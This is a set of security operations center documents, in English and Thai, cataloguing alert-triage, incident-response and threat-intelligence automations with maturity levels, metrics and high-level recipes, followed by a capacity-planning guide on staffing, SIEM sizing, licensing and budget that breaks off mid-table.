> This catalog lists **every automation** the SOC uses or should implement, organized by category. Use it to track automation maturity, identify manual processes that should be automated, and onboard analysts to existing automations.

---

## Automation Maturity Levels

```mermaid
graph LR
    L0[Level 0<br>Fully Manual] --> L1[Level 1<br>Assisted]
    L1 --> L2[Level 2<br>Semi-Auto]
    L2 --> L3[Level 3<br>Fully Auto]
    L3 --> L4[Level 4<br>Self-Tuning]

    style L0 fill:#dc2626,color:#fff
    style L1 fill:#f97316,color:#fff
    style L2 fill:#eab308,color:#000
    style L3 fill:#22c55e,color:#fff
    style L4 fill:#3b82f6,color:#fff
```

| Level | Name | Description | Example |
|:---:|:---|:---|:---|
| **L0** | Fully Manual | Analyst does everything by hand | Copy-paste IOCs into lookup tools |
| **L1** | Assisted | Tool provides suggestions, analyst acts | SIEM enriches alert with context |
| **L2** | Semi-Automated | Tool executes, analyst approves | SOAR submits ticket after analyst confirms |
| **L3** | Fully Automated | No human intervention needed | Auto-block IOCs from TI feeds |
| **L4** | Self-Tuning | System learns and adjusts automatically | ML-based alert prioritization |

---

## 1. Alert Triage & Enrichment

| # | Automation | Description | Trigger | Current | Target | Priority |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 1.1 | **IOC Auto-Enrichment** | Lookup hash/IP/domain against TI feeds on alert creation | New alert | L1 | L3 | 🔴 P1 |
| 1.2 | **Alert Deduplication** | Suppress duplicate alerts from same source within time window | Alert ingestion | L1 | L3 | 🔴 P1 |
| 1.3 | **Alert Priority Scoring** | Calculate severity based on asset criticality + TI + user risk | New alert | L0 | L2 | 🟠 P2 |
| 1.4 | **Context Enrichment** | Auto-add user info, asset details, recent activity to alert | New alert | L1 | L3 | 🔴 P1 |
| 1.5 | **False Positive Filtering** | Auto-close known FP patterns with documentation | Alert ingestion | L0 | L2 | 🟠 P2 |
| 1.6 | **Alert Correlation** | Group related alerts into incidents automatically | Multiple alerts | L1 | L3 | 🟠 P2 |
| 1.7 | **GeoIP Enrichment** | Add geographic info to IP-based alerts | IP in alert | L2 | L3 | 🟢 P3 |

---

## 2. Incident Response Automation

| # | Automation | Description | Trigger | Current | Target | Priority |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 2.1 | **Phishing Email Quarantine** | Auto-quarantine reported phishing emails org-wide | User report or detection | L1 | L3 | 🔴 P1 |
| 2.2 | **Endpoint Isolation** | Auto-isolate endpoint on confirmed malware/C2 | P1/P2 malware alert | L1 | L2 | 🔴 P1 |
| 2.3 | **Account Disable** | Auto-disable compromised account | Confirmed compromise (P1) | L1 | L2 | 🔴 P1 |
| 2.4 | **Firewall Block IOC** | Auto-add malicious IPs/domains to firewall block list | Confirmed malicious IOC | L1 | L3 | 🟠 P2 |
| 2.5 | **Ticket Creation** | Auto-create incident ticket with enriched context | New P1/P2 alert | L2 | L3 | 🟠 P2 |
| 2.6 | **Notification Dispatch** | Auto-send notifications based on severity and escalation matrix | Incident classification | L1 | L3 | 🟠 P2 |
| 2.7 | **Evidence Collection** | Auto-collect forensic artifacts (memory, logs) on trigger | P1 incident declared | L0 | L2 | 🟡 P3 |
| 2.8 | **MFA Reset** | Auto-trigger MFA re-enrollment after account compromise | Account recovery | L0 | L2 | 🟡 P3 |

---

## 3. Threat Intelligence Automation

| # | Automation | Description | Trigger | Current | Target | Priority |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 3.1 | **TI Feed Ingestion** | Auto-ingest IOCs from configured TI feeds | Scheduled (hourly) | L2 | L3 | 🔴 P1 |
| 3.2 | **IOC Expiry** | Auto-expire old IOCs based on age and confidence | Daily cleanup | L0 | L3 | 🟠 P2 |
| 3.3 | **Retroactive Hunting** | Re-scan historical logs when new high-confidence IOC arrives | New critical IOC | L0 | L2 | 🟠 P2 |
| 3.4 | **TI Report Parsing** | Extract IOCs from PDF/email threat reports automatically | Report received | L0 | L2 | 🟡 P3 |
| 3.5 | **MITRE Mapping** | Auto-tag alerts with ATT&CK techniques based on detection rule | Alert creation | L1 | L3 | 🟠 P2 |

---

## 4. Detection Engineering Automation

| # | Automation | Description | Trigger | Current | Target | Priority |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 4.1 | **Sigma Rule Deployment** | Auto-convert Sigma rules to SIEM query format and deploy | Git push to rules repo | L1 | L3 | 🔴 P1 |
| 4.2 | **Detection Rule Testing** | Auto-validate new rules against test data before production | PR to rules repo | L0 | L2 | 🟠 P2 |
| 4.3 | **Rule Performance Metrics** | Auto-track TP/FP ratio per rule, flag underperformers | Weekly schedule | L0 | L2 | 🟠 P2 |
| 4.4 | **Coverage Gap Report** | Auto-generate MITRE ATT&CK coverage heatmap | Monthly schedule | L0 | L2 | 🟡 P3 |
| 4.5 | **YARA Rule Scanning** | Auto-scan file submissions against YARA rule set | File submission | L1 | L3 | 🟠 P2 |

---

## 5. Operational Automation

| # | Automation | Description | Trigger | Current | Target | Priority |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 5.1 | **Shift Handoff Report** | Auto-generate shift summary from open tickets and alerts | Shift end | L0 | L2 | 🟠 P2 |
| 5.2 | **Log Source Health Check** | Auto-alert when log source stops sending for > threshold | Every 15 min | L1 | L3 | 🔴 P1 |
| 5.3 | **SIEM License Monitor** | Auto-alert when EPS approaches license limit | Hourly check | L0 | L2 | 🟠 P2 |
| 5.4 | **SLA Breach Warning** | Auto-notify when ticket approaches SLA deadline | Ticket age check | L1 | L3 | 🟠 P2 |
| 5.5 | **Monthly KPI Report** | Auto-generate SOC metrics dashboard for management | Monthly schedule | L0 | L2 | 🟡 P3 |
| 5.6 | **Analyst Workload Balance** | Auto-distribute alerts based on analyst availability/skill | Alert assignment | L0 | L2 | 🟡 P3 |
| 5.7 | **Compliance Evidence Export** | Auto-export evidence for audit (logs, tickets, metrics) | Quarterly schedule | L0 | L2 | 🟡 P3 |

---

## 6. User & Entity Behavior

| # | Automation | Description | Trigger | Current | Target | Priority |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 6.1 | **Impossible Travel Detection** | Auto-detect logins from geographically impossible locations | Login event | L2 | L3 | 🟠 P2 |
| 6.2 | **Baseline Deviation Alert** | Alert when user behavior deviates significantly from baseline | Continuous | L0 | L2 | 🟡 P3 |
| 6.3 | **Privileged Account Monitoring** | Auto-alert on unusual privileged account activity | Privileged event | L1 | L3 | 🟠 P2 |
| 6.4 | **Off-Hours Activity** | Auto-flag activity outside normal working hours | After-hours event | L1 | L2 | 🟡 P3 |

---

## Implementation Roadmap

```mermaid
gantt
    title SOC Automation Roadmap
    dateFormat  YYYY-Q
    axisFormat  %Y-Q%q

    section P1 Critical
    IOC Auto-Enrichment          :2026-Q1, 90d
    Alert Deduplication          :2026-Q1, 90d
    Phishing Quarantine          :2026-Q1, 90d
    Sigma Rule Deployment        :2026-Q1, 90d
    Log Source Health Check      :2026-Q1, 90d

    section P2 High
    Alert Priority Scoring       :2026-Q2, 90d
    Endpoint Isolation           :2026-Q2, 90d
    TI Feed Ingestion            :2026-Q2, 90d
    Rule Performance Metrics     :2026-Q2, 90d

    section P3 Medium
    Evidence Collection          :2026-Q3, 90d
    Shift Handoff Report         :2026-Q3, 90d
    Monthly KPI Report           :2026-Q3, 90d
```

---

## Automation Decision Framework

> Use this framework to decide whether to automate a process.

| Factor | Score 1 (Low) | Score 2 (Med) | Score 3 (High) |
|:---|:---|:---|:---|
| **Frequency** | Monthly or less | Weekly | Daily or more |
| **Time per execution** | < 5 min | 5–30 min | > 30 min |
| **Error risk (manual)** | Low | Medium | High |
| **Impact if delayed** | Informational | Operational | Security-critical |
| **Complexity to automate** | High (custom dev) | Medium (API calls) | Low (built-in feature) |

**Scoring:**
- **12–15**: Automate immediately
- **8–11**: Plan for next quarter
- **5–7**: Keep manual, reassess later

---

## Automation Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| Automation coverage (% of catalog at L2+) | ≥ 50% | Count items at L2+ / total |
| Mean Time to Enrich (MTTE) | < 30 sec | Alert creation → enrichment complete |
| Auto-resolved alerts | ≥ 30% of P4 | Auto-closed / total P4 |
| SOAR playbook execution success rate | ≥ 95% | Successful runs / total runs |
| Analyst time saved per shift | ≥ 2 hours | Before vs after automation |
| False positive auto-filter accuracy | ≥ 98% | Correct FP / total auto-filtered |

---

## SOAR Playbook Quick Reference

> These map to the [SOAR Playbook Templates](../05_Incident_Response/SOAR_Playbooks.en.md).

| Playbook | Trigger | Key Actions | Auto Level |
|:---|:---|:---|:---:|
| PB-PHISH | User report / email alert | Quarantine → URL scan → notify user | L2 |
| PB-MALWARE | EDR detection | Isolate → collect evidence → ticket | L2 |
| PB-BRUTE | 10+ failed logins | Check geo → check MFA → block/alert | L2 |
| PB-IOC-BLOCK | TI feed match | Verify → add to blocklist → notify | L3 |
| PB-ACCT-COMP | Confirmed compromise | Disable → reset → MFA re-enroll → ticket | L2 |
| PB-LOG-HEALTH | Source silent > 30 min | Check → alert SOC → ticket to engineering | L3 |

---

## Related Documents

-   [SOAR Playbooks](../05_Incident_Response/SOAR_Playbooks.en.md) — Detailed playbook templates
-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md) — Proactive hunting
-   [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [TI Feeds Integration](../06_Operations_Management/TI_Feeds_Integration.en.md)
-   [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
-   [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md)
-   [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md)


---

## File: 06_Operations_Management/SOC_Automation_Catalog.th.md

# SOC Automation Catalog / แคตตาล็อกระบบอัตโนมัติ SOC

**รหัสเอกสาร**: OPS-SOP-012
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> แคตตาล็อกนี้รวบรวม **ระบบอัตโนมัติทุกตัว** ที่ SOC ใช้หรือควรนำมาใช้ เพื่อติดตาม automation maturity, ระบุงาน manual ที่ควรทำเป็น auto, และ onboard analyst ใหม่

---

## ระดับความสมบูรณ์ของ Automation

| ระดับ | ชื่อ | คำอธิบาย | ตัวอย่าง |
|:---:|:---|:---|:---|
| **L0** | Manual ทั้งหมด | Analyst ทำทุกอย่างด้วยมือ | Copy-paste IOC ไปค้นหา |
| **L1** | มีตัวช่วย | เครื่องมือแนะนำ, analyst ตัดสินใจ | SIEM เพิ่ม context ให้ alert |
| **L2** | กึ่งอัตโนมัติ | เครื่องมือทำ, analyst อนุมัติ | SOAR สร้าง ticket หลัง analyst ยืนยัน |
| **L3** | อัตโนมัติเต็ม | ไม่ต้องมีคนดูแล | Auto-block IOC จาก TI feeds |
| **L4** | ปรับตัวเอง | ระบบเรียนรู้และปรับเอง | ML จัดลำดับ alert |

---

## 1. Alert Triage & Enrichment

| # | Automation | คำอธิบาย | Trigger | ปัจจุบัน | เป้าหมาย | ลำดับ |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 1.1 | **IOC Auto-Enrichment** | ค้นหา hash/IP/domain จาก TI feeds | Alert ใหม่ | L1 | L3 | 🔴 P1 |
| 1.2 | **Alert Deduplication** | ระงับ alert ซ้ำจากแหล่งเดียวกัน | Alert ingestion | L1 | L3 | 🔴 P1 |
| 1.3 | **Alert Priority Scoring** | คำนวณ severity จาก asset + TI + user risk | Alert ใหม่ | L0 | L2 | 🟠 P2 |
| 1.4 | **Context Enrichment** | เพิ่มข้อมูลผู้ใช้, asset, กิจกรรมล่าสุดใน alert | Alert ใหม่ | L1 | L3 | 🔴 P1 |
| 1.5 | **FP Filtering** | Auto-close FP ที่รู้จัก, พร้อมบันทึก | Alert ingestion | L0 | L2 | 🟠 P2 |
| 1.6 | **Alert Correlation** | รวม alert ที่เกี่ยวข้องเป็น incident อัตโนมัติ | หลาย alerts | L1 | L3 | 🟠 P2 |

---

## 2. Incident Response Automation

| # | Automation | คำอธิบาย | Trigger | ปัจจุบัน | เป้าหมาย | ลำดับ |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 2.1 | **Phishing Quarantine** | Quarantine phishing email ทั้งองค์กรอัตโนมัติ | User report / detection | L1 | L3 | 🔴 P1 |
| 2.2 | **Endpoint Isolation** | Isolate endpoint เมื่อมี malware/C2 | P1/P2 malware alert | L1 | L2 | 🔴 P1 |
| 2.3 | **Account Disable** | Disable account ที่ถูกบุกรุก | ยืนยัน compromise (P1) | L1 | L2 | 🔴 P1 |
| 2.4 | **Firewall Block IOC** | เพิ่ม IP/domain อันตรายใน blocklist อัตโนมัติ | IOC ยืนยันอันตราย | L1 | L3 | 🟠 P2 |
| 2.5 | **Ticket Creation** | สร้าง incident ticket พร้อม context อัตโนมัติ | P1/P2 alert ใหม่ | L2 | L3 | 🟠 P2 |
| 2.6 | **Notification Dispatch** | ส่งการแจ้งเตือนตาม severity + escalation matrix | Incident classification | L1 | L3 | 🟠 P2 |
| 2.7 | **Evidence Collection** | เก็บ forensic artifacts อัตโนมัติ | P1 incident | L0 | L2 | 🟡 P3 |

---

## 3. Threat Intelligence Automation

| # | Automation | คำอธิบาย | Trigger | ปัจจุบัน | เป้าหมาย | ลำดับ |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 3.1 | **TI Feed Ingestion** | รับ IOC จาก TI feeds อัตโนมัติ | กำหนดเวลา (ทุกชม.) | L2 | L3 | 🔴 P1 |
| 3.2 | **IOC Expiry** | ลบ IOC เก่าตามอายุและ confidence | ทำความสะอาดรายวัน | L0 | L3 | 🟠 P2 |
| 3.3 | **Retroactive Hunting** | สแกน log ย้อนหลังเมื่อได้ IOC ใหม่ที่สำคัญ | IOC วิกฤตใหม่ | L0 | L2 | 🟠 P2 |
| 3.4 | **MITRE Mapping** | Tag alert ด้วย ATT&CK technique อัตโนมัติ | Alert creation | L1 | L3 | 🟠 P2 |

---

## 4. Detection Engineering Automation

| # | Automation | คำอธิบาย | Trigger | ปัจจุบัน | เป้าหมาย | ลำดับ |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 4.1 | **Sigma Rule Deployment** | แปลง Sigma rules เป็น SIEM query แล้ว deploy | Git push ไป rules repo | L1 | L3 | 🔴 P1 |
| 4.2 | **Rule Testing** | ทดสอบ rule ใหม่กับ test data ก่อน production | PR ไป rules repo | L0 | L2 | 🟠 P2 |
| 4.3 | **Rule Performance** | ติดตาม TP/FP ratio ต่อ rule, แจ้ง rule ที่แย่ | รายสัปดาห์ | L0 | L2 | 🟠 P2 |
| 4.4 | **YARA Scanning** | สแกนไฟล์ที่ส่งมาด้วย YARA rules | File submission | L1 | L3 | 🟠 P2 |

---

## 5. Operational Automation

| # | Automation | คำอธิบาย | Trigger | ปัจจุบัน | เป้าหมาย | ลำดับ |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 5.1 | **Shift Handoff Report** | สร้างสรุปเวรจาก tickets และ alerts อัตโนมัติ | สิ้นสุดเวร | L0 | L2 | 🟠 P2 |
| 5.2 | **Log Source Health** | แจ้งเตือนเมื่อ log source หยุดส่ง > threshold | ทุก 15 นาที | L1 | L3 | 🔴 P1 |
| 5.3 | **SLA Breach Warning** | แจ้งเมื่อ ticket ใกล้เลย SLA | ตรวจสอบอายุ ticket | L1 | L3 | 🟠 P2 |
| 5.4 | **Monthly KPI Report** | สร้างรายงาน KPI อัตโนมัติ | รายเดือน | L0 | L2 | 🟡 P3 |

---

## 6. User & Entity Behavior

| # | Automation | คำอธิบาย | Trigger | ปัจจุบัน | เป้าหมาย | ลำดับ |
|:---:|:---|:---|:---|:---:|:---:|:---:|
| 6.1 | **Impossible Travel** | ตรวจจับ login จากสถานที่ที่เป็นไปไม่ได้ | Login event | L2 | L3 | 🟠 P2 |
| 6.2 | **Privileged Account Monitoring** | แจ้งเตือนกิจกรรมผิดปกติของ privileged account | Privileged event | L1 | L3 | 🟠 P2 |
| 6.3 | **Off-Hours Activity** | แจ้งเตือนกิจกรรมนอกเวลาทำงาน | After-hours event | L1 | L2 | 🟡 P3 |

---

## กรอบตัดสินใจ Automation

| ปัจจัย | คะแนน 1 (ต่ำ) | คะแนน 2 (กลาง) | คะแนน 3 (สูง) |
|:---|:---|:---|:---|
| **ความถี่** | รายเดือนหรือน้อยกว่า | รายสัปดาห์ | รายวันหรือมากกว่า |
| **เวลาต่อครั้ง** | < 5 นาที | 5–30 นาที | > 30 นาที |
| **ความเสี่ยงผิดพลาด (manual)** | ต่ำ | ปานกลาง | สูง |
| **ผลกระทบถ้าล่าช้า** | ข้อมูลแจ้งเตือน | กระทบการปฏิบัติงาน | กระทบความปลอดภัย |
| **ความยากในการ automate** | สูง (custom dev) | ปานกลาง (API) | ต่ำ (built-in) |

**เกณฑ์คะแนน:**
- **12–15**: Automate ทันที
- **8–11**: วางแผนไตรมาสหน้า
- **5–7**: คง manual, ประเมินใหม่ทีหลัง

---

## ตัวชี้วัด Automation

| ตัวชี้วัด | เป้าหมาย | วิธีวัด |
|:---|:---:|:---|
| Automation coverage (% ที่ L2+) | ≥ 50% | จำนวนที่ L2+ / ทั้งหมด |
| Mean Time to Enrich (MTTE) | < 30 วินาที | Alert creation → enrichment เสร็จ |
| Alert ที่ auto-resolve | ≥ 30% ของ P4 | Auto-closed / total P4 |
| SOAR success rate | ≥ 95% | Runs สำเร็จ / total runs |
| เวลาที่ analyst ประหยัดต่อเวร | ≥ 2 ชม. | ก่อน vs หลัง automation |

---

## Automation Priority Matrix

| จำนวน/เดือน × เวลาต่อครั้ง | ง่าย | ปานกลาง | ซับซ้อน |
|:---|:---:|:---:|:---:|
| **สูง (>500 ครั้ง)** | 🔴 Automate Now | 🔴 Automate Now | 🟡 Plan |
| **กลาง (100-500)** | 🔴 Automate Now | 🟡 Plan | 🟢 Backlog |
| **ต่ำ (<100)** | 🟡 Plan | 🟢 Backlog | ⚪ Skip |

## Automation Recipes

### Recipe 1: Auto-Enrich Alert

```
Trigger: New alert created
Steps:
  1. Extract IOCs (IP, hash, domain, URL)
  2. Query VT, AbuseIPDB, URLhaus
  3. Add enrichment to alert notes
  4. Update severity based on results
  5. If malicious → auto-assign to Tier 2
```

### Recipe 2: Auto-Close Known FP

```
Trigger: Alert matches known-FP pattern
Steps:
  1. Check alert against FP whitelist
  2. If match → add note "Auto-closed: Known FP [ID]"
  3. Close ticket
  4. Log for monthly FP review
```

### Recipe 3: Auto-Quarantine Malware

```
Trigger: EDR alert with high confidence malware
Steps:
  1. Verify confidence score ≥ 90%
  2. Isolate host via EDR API
  3. Create incident ticket
  4. Notify Shift Lead (Slack + email)
  5. Collect forensic snapshot
```

## Automation KPIs

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| Automation Rate | ≥ 60% ของ alerts | [XX]% |
| Auto-enrichment Success Rate | ≥ 95% | [XX]% |
| Auto-close FP Rate | ≥ 30% ของ total FP | [XX]% |
| เวลาที่ analyst ประหยัดได้/เดือน | ≥ 40 ชม. | [XX] ชม. |

### Automation Impact Metrics

| Automation | Manual Time | Auto Time | Savings |
|:---|:---|:---|:---|
| Phishing triage | 15 min | 2 min | 87% |
| IOC enrichment | 10 min | 30 sec | 95% |
| Endpoint isolation | 5 min | 10 sec | 97% |
| Report generation | 2 hrs | 5 min | 96% |

### Automation Readiness Checklist

| Criteria | Required |
|:---|:---|
| Process documented | ✅ |
| Consistent inputs | ✅ |
| API available | ✅ |
| Error handling defined | ✅ |

## เอกสารที่เกี่ยวข้อง

-   [SOAR Playbooks](../05_Incident_Response/SOAR_Playbooks.en.md)
-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md)
-   [Detection Rule Testing SOP](Detection_Rule_Testing.en.md)
-   [TI Feeds Integration](TI_Feeds_Integration.en.md)
-   [SOC Metrics & KPIs](SOC_Metrics.en.md)
-   [Log Source Matrix](Log_Source_Matrix.en.md)


---

## File: 06_Operations_Management/SOC_Capacity_Planning.en.md

# SOC Capacity Planning

**Document ID**: OPS-SOP-026
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-16

> Framework for **planning SOC staffing, infrastructure, and budget** based on organizational growth, threat landscape changes, and operational requirements. Covers headcount modeling, infrastructure sizing, license planning, and budget forecasting.

---

## Staffing Model

### Headcount Calculator

```mermaid
flowchart LR
    A[Alert Volume] --> D[Headcount Model]
    B[Operating Hours] --> D
    C[Complexity Mix] --> D
    D --> E[FTE Required]
    E --> F[+ 20% for leave/training]
    F --> G[Total Headcount]

    style A fill:#3b82f6,color:#fff
    style D fill:#f97316,color:#fff
    style G fill:#22c55e,color:#fff
```

### Staffing by Coverage Model

| Coverage Model | Shifts | Min Analysts | Lead/Manager | Total FTE |
|:---|:---:|:---:|:---:|:---:|
| **Business Hours** (8×5) | 1 | 2 | 1 | 3 |
| **Extended** (16×5) | 2 | 4 | 1 | 5 |
| **24/5** | 3 | 6 | 1 | 7 |
| **24/7** | 4 | 8 | 2 | 10 |
| **24/7 + Hunt** | 4 | 10 | 2 + 2 TH | 14 |

### Role-Based Capacity

| Role | Capacity per FTE | Notes |
|:---|:---|:---|
| **Tier 1 Analyst** | 30–50 alerts/shift | Triage and initial response |
| **Tier 2 Analyst** | 5–10 investigations/day | Deep investigation |
| **Tier 3 / Hunt** | 2–4 hunts/week | Proactive threat hunting |
| **Detection Engineer** | 5–10 rules/week | Rule creation, tuning, testing |
| **SOAR Engineer** | 2–3 playbooks/month | Automation development |
| **SOC Manager** | 8–12 direct reports | Team management, reporting |

---

## Infrastructure Sizing

### SIEM Sizing

| Factor | Measurement | Sizing Impact |
|:---|:---|:---|
| **Events per second (EPS)** | Avg + peak EPS | CPU, memory, indexing |
| **Daily ingest volume** | GB/day | Storage, license cost |
| **Retention period** | Hot/warm/cold days | Total storage |
| **Concurrent users** | Active searchers | Memory, CPU |
| **Correlation rules** | Number of active rules | CPU |
| **Searches/dashboards** | Concurrent queries | CPU, I/O |

### SIEM Sizing Tiers

| Tier | EPS | Daily Volume | Storage (1yr) | vCPU | RAM |
|:---|:---:|:---:|:---:|:---:|:---:|
| **Small** | < 5K | < 50 GB | 18 TB | 8 | 32 GB |
| **Medium** | 5–25K | 50–250 GB | 90 TB | 24 | 96 GB |
| **Large** | 25–100K | 250 GB–1 TB | 365 TB | 64 | 256 GB |
| **Enterprise** | > 100K | > 1 TB | 500+ TB | 128+ | 512+ GB |

### Log Volume Planning

| Log Source | Avg EPS / Device | Volume / Day | Growth Rate |
|:---|:---:|:---:|:---:|
| **Firewall** | 200–500 | 5–15 GB | 15%/yr |
| **IDS/IPS** | 50–200 | 2–8 GB | 10%/yr |
| **Endpoint (EDR)** | 10–50 / agent | 0.2–1 GB | 20%/yr |
| **Windows Event Log** | 5–20 / host | 0.1–0.5 GB | 10%/yr |
| **DNS** | 100–500 | 3–10 GB | 15%/yr |
| **Proxy / Web** | 50–300 | 2–10 GB | 20%/yr |
| **Cloud (AWS/Azure)** | 20–200 | 1–5 GB | 30%/yr |
| **Email Gateway** | 10–50 | 0.5–3 GB | 10%/yr |
| **VPN** | 5–20 | 0.1–0.5 GB | 15%/yr |

---

## License Planning

### Core Platform Licenses

| Platform | Metric | Typical Pricing Model |
|:---|:---|:---|
| **SIEM** | EPS / GB ingested / endpoints | Per GB/day or EPS tier |
| **SOAR** | Actions/month or users | Per user or action volume |
| **EDR** | Endpoints protected | Per endpoint/year |
| **TI Platform** | Users + API calls | Per user + API tier |
| **Vulnerability Scanner** | IPs / assets scanned | Per asset/year |
| **CASB** | Users protected | Per user/year |
| **Email Security** | Mailboxes | Per mailbox/year |

### License Growth Forecast

| Year | Endpoints | EPS | SIEM Storage | EDR Licenses | Est. Growth |
|:---:|:---:|:---:|:---:|:---:|:---:|
| Current | _____ | _____ | _____ TB | _____ | Baseline |
| +1 year | +15% | +20% | +25% | +15% | Organic |
| +2 years | +35% | +45% | +55% | +35% | Organic + M&A |
| +3 years | +60% | +75% | +90% | +60% | Strategic plan |

---

## Budget Planning

### SOC Budget Categories

| Category | % of SOC Budget | Components |
|:---|:---:|:---|
| **People** | 55–65% | Salaries, benefits, training, certifications |
| **Technology** | 25–35% | SIEM, SOAR, EDR, TI, cloud services |
| **Operations** | 5–10% | Facilities, power, network, travel |
| **Professional Services** | 3–5% | Consulting, managed services, pentest |
| **Contingency** | 3–5% | Incident response retainer, surge capacity |

### Cost Per Alert Analysis

| Component | Cost Factor | Calculation |
|:---|:---|:---|
| **Analyst time** | Avg salary ÷ alerts handled | ฿___ per alert |
| **Tool cost** | License ÷ alerts processed | ฿___ per alert |
| **Overhead** | Infrastructure ÷ total alerts | ฿___ per alert |
| **Total cost per alert** | Sum of above | ฿___ per alert |

### Automation ROI

| Before Automation | After Automation | Savings |
|:---|:---|:---|
| 50 alerts/analyst/shift | 80 alerts/analyst/shift | 37.5% capacity gain |
| 15 min avg triage time | 5 min with SOAR | 66% time reduction |
| 3 analysts for triage | 2 analysts for triage | 1 FTE saved |
| Manual enrichment 10 min | Auto enrichment 30 sec | 95% faster |

---

## Growth Triggers

### When to Scale

| Trigger | Indicator | Action |
|:---|:---|:---|
| **Alert volume > capacity** | Analysts consistently above 50/shift | Add analyst FTE |
| **MTTD increasing** | MTTD trending above SLA | Add monitoring capacity |
| **MTTR increasing** | MTTR trending above SLA | Add investigation capacity |
| **Alert backlog growing** | Unresolved alerts > 24h SLA | Add triage capacity |
| **New log sources** | EPS increase > 20% | Expand SIEM resources |
| **M&A / expansion** | New business units | Staff + tool expansion |
| **New compliance** | New framework requirement | Compliance + tool additions |
| **High attrition** | Turnover > 15% | Compensation review + hire |

### Scaling Decision Matrix

| Scale Type | Timeline | Approval | Budget Impact |
|:---|:---:|:---|:---|
| **Add shift coverage** | 3–6 months | SOC Manager | 2–3 FTE |
| **Expand SIEM** | 1–3 months | IT Director | Infrastructure + licensing |
| **New tool deployment** | 3–6 months | CISO | Tool license + integration |
| **Managed service augment** | 1–2 months | CISO | Service contract |
| **Full SOC expansion** | 6–12 months | CxO | Major CAPEX + OPEX |

---

## Annual Planning Cycle

| Month | Activity | Deliverable |
|:---|:---|:---|
| **Q4 (Oct–Nov)** | Capacity assessment, growth forecast | Current state report |
| **Q4 (Nov)** | Budget request preparation | Budget proposal |
| **Q4 (Dec)** | Budget negotiation, approval | Approved budget |
| **Q1 (Jan)** | Hiring plan execution | Job postings, interviews |
| **Q1–Q2** | Infrastructure procurement | POs, vendor contracts |
| **Q2–Q3** | Deploy and onboard | New staff trained, tools live |
| **Q3 (Sep)** | Mid-year review, adjust forecast | Updated forecast |

---

## Metrics

| Metric | Target | Review Cycle |
|:---|:---:|:---:|
| Analyst utilization rate | 70–80% | Monthly |
| Alert-to-analyst ratio | ≤ 50/shift | Weekly |
| SIEM capacity headroom | ≥ 20% | Monthly |
| Budget variance | ± 5% | Quarterly |
| Attrition rate | < 15% | Quarterly |
| Training hours per analyst | ≥ 40 hrs/year | Annual |
| Automation coverage | ≥ 50% of triage | Quarterly |

---

## Related Documents

-   [SOC Team Structure](SOC_Team_Structure.en.md) — Roles and responsibilities
-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — Performance measurement
-   [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — Dashboard building
-   [SOC Maturity Assessment](SOC_Maturity_Assessment.en.md) — Capability levels
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Data volume sources
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Automation savings


---

## File: 06_Operations_Management/SOC_Capacity_Planning.th.md

# SOC Capacity Planning / การวางแผนกำลังคน SOC

**รหัสเอกสาร**: OPS-SOP-026
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-16

> กรอบการ **วางแผนกำลังคน, โครงสร้างพื้นฐาน, และงบประมาณ SOC** ตามการเติบโตองค์กร, การเปลี่ยนแปลงภัยคุกคาม, และข้อกำหนดงาน ครอบคลุม staffing, SIEM sizing, license, และ budget

---

## โมเดลกำลังคน

### ตามรูปแบบ Coverage

| รูปแบบ | กะ | Analysts ขั้นต่ำ | Lead/Manager | รวม FTE |
|:---|:---:|:---:|:---:|:---:|
| **เวลาทำการ** (8×5) | 1 | 2 | 1 | 3 |
| **ขยาย** (16×5) | 2 | 4 | 1 | 5 |
| **24/5** | 3 | 6 | 1 | 7 |
| **24/7** | 4 | 8 | 2 | 10 |
| **24/7 + Hunt** | 4 | 10 | 2 + 2 TH | 14 |

### Capacity ต่อ FTE

| Role | Capacity | หมายเหตุ |
|:---|:---|:---|
| **Tier 1** | 30–50 alerts/กะ | Triage + initial response |
| **Tier 2** | 5–10 investigations/วัน | Deep investigation |
| **Tier 3 / Hunt** | 2–4 hunts/สัปดาห์ | Proactive hunting |
| **Detection Engineer** | 5–10 rules/สัปดาห์ | สร้าง + tune rules |
| **SOAR Engineer** | 2–3 playbooks/เดือน | Automation dev |

---

## SIEM Sizing

| Tier | EPS | ปริมาณ/วัน | Storage (1 ปี) | vCPU | RAM |
|:---|:---:|:---:|:---:|:---:|:---:|
| **Small** | < 5K | < 50 GB | 18 TB | 8 | 32 GB |
| **Medium** | 5–25K | 50–250 GB | 90 TB | 24 | 96 GB |
| **Large** | 25–100K | 250 GB–1 TB | 365 TB | 64 | 256 GB |
| **Enterprise** | > 100K | > 1 TB | 500+ TB | 128+ | 512+ GB |

### ปริมาณ Log ต่อแหล่ง

| แหล่ง | EPS เฉลี่ย/เครื่อง | ต่อวัน | อัตราเติบโต |
|:---|:---:|:---:|:---:|
| Firewall | 200–500 | 5–15 GB | 15%/ปี |
| IDS/IPS | 50–200 | 2–8 GB | 10%/ปี |
| EDR | 10–50/agent | 0.2–1 GB | 20%/ปี |
